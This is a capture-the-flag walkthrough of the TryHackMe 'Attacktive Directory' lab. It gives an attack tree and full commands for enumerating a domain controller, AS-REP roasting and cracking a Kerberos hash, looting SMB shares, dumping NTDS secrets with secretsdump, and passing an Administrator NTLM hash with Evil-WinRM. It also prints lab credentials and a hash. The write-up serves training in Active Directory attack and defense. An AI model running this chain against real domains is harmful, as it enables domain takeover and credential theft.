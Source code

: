 # Attacktive directory

![Kerberos](../../_static/images/kerberosfun.png)

## Attack tree

```text
1 Discovery (AND)
    1.1 Scan ports
    1.2 Enumerate 139/445
2 Enumerate DC users (AND)
3 Exploit Kerberos
    3.1 Query a ticket from users (if possible) (AND)
    3.2 Crack the hash
4 Enumerate the DC further (AND)
    4.1 Map remote SMB shares
    4.2 Search for information for further escalation
    4.3 Decode or crack if necessary
5 Elevate privileges within the domain
    5.1 Dump ntds.dit
    5.2 Get administrators NTLM hash
    5.3 Pass the hash with Evil-WinRM
```

## Example

The example was made from doing the [THM: Attacktive Directory room](https://tryhackme.com/room/attacktivedirectory)

### Discovery

#### Scan with nmap

    # nmap -sV -sC -T4 <IP address target>

#### Enumerate 139/445

    # enum4linux <IP address target>

### Enumerate the DC

Add the following line to `/etc/hosts` file:

    <IP address target> spookysec.local

Download the user list and password list in the ~/Downloads directory:

```text
wget https://raw.githubusercontent.com/Sq00ky/attacktive-directory-tools/master/passwordlist.txt
wget https://raw.githubusercontent.com/Sq00ky/attacktive-directory-tools/master/userlist.txt
```

Run the kerbrute command in the ~/Downloads directory:

    # /opt/kerbrute/kerbrute userenum --dc spookysec.local -d spookysec.local userlist.txt -t 100

![Results kerbrute spooky.local](../../_static/images/kerbrute-spookylocal.png)

### Exploiting Kerberos

Kerberos pre-authentication has been disabled for svc-admin. Get the ticket:

    # cd /opt/impacket/examples
    # python GetNPUsers.py spookysec.local/svc-admin -no-pass

Check what [type of hash](https://hashcat.net/wiki/doku.php?id=example_hashes) was retrieved:

    Kerberos 5 AS-REP etype 23 -> mode 18200

Crack the hash with the modified password list:

    # hashcat --force -m 18200 -a 0 svc-admin.hash /usr/share/wordlists/rockyou.txt

Connect to the share using smbclient:

```text
smbclient '\\spookysec.local\backup' -U svc-admin
smb: \> ls
smb: \> mget backup_credentials.txt
exit
```

Decode using [base64](https://www.base64decode.org/). We now have the credentials of the backup account.

`secretdump.py` is part of impacket:

```text
cd /opt/impacket/examples
python3 secretsdump.py spookysec.local/backup:FOUNDPASSWORDHERE@spookysec.local -just-dc-user Administrator
```

Now we have the password: management2005

### Enumerate the DC further

Map remote shares:

    $ smbclient -U spookysec.local/svc-admin -L //<IP target machine>
    Enter SPOOKYSEC.LOCAL\svc-admin's password: 

And:

    $ smbclient -U spookysec.local/svc-admin //<IP target machine>/backup
    Enter SPOOKYSEC.LOCAL\svc-admin's password: 
    Try "help" to get a list of possible commands.
    smb: \> ls
      .                                   D        0  Sat Apr  4 19:08:39 2020
      ..                                  D        0  Sat Apr  4 19:08:39 2020
      backup_credentials.txt              A       48  Sat Apr  4 19:08:53 2020

Get them backup credentials:

    smb: \> get backup_credentials.txt

It contains base64 encoded credentials. Decoding the base64 string reveals the credentials:
    
    $ echo "YmFja3VwQHNwb29reXNlYy5sb2NhbDpiYWNrdXAyNTE3ODYw" | base64 -d
    [...]:backup2517860

Now that we have new user account credentials, we may have more privileges on the system than before. 
The username of the account "backup" indicated it is the backup account for the Domain Controller. 
This account has a unique permission that allows all Active Directory changes to be synced with this user account. 
This includes password hashes.

### Elevate privileges within the domain

Retrieve all password hashes that this user account (which is synced with the domain controller) has to offer. 
Exploiting this, we may have full control over the AD Domain.

    $ python secretsdump.py spookysec.local/backup:FOUNDPASSWORDHERE@spookysec.local -just-dc-user Administrator
    ...
    [-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
    [*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
    [*] Using the DRSUAPI method to get NTDS.DIT secrets
    Administrator:500:aad3b435b51404eeaad3b435b51404ee:e4876a80a723612986d7609aa5ebc12b:::
    ...

Pass the Administrators NTLM hash with Evil-WinRM:

    $ evil-winrm -i <IP target machine> -u Administrator -H <Administrators NTLM hash>

If on TryHackMe target, all flags are in the users desktops. The Administrator account has got acces to all.

## Tools

* [Impacket](https://github.com/SecureAuthCorp/impacket)

```text
# git clone https://github.com/SecureAuthCorp/impacket.git /opt/impacket
# pip3 install -r /opt/impacket/requirements.txt
# cd /opt/impacket/ && python3 ./setup.py install
```

* [Bloodhound](https://github.com/BloodHoundAD/BloodHound)

```text
# apt install bloodhound neo4j
```

* [Kerbrute](https://github.com/ropnop/kerbrute/releases/)

```text
# chmod +x filename
# mkdir /opt/kerbrute
# cp kerbrute_linux_amd64 /opt/kerbrute/kerbrute
```
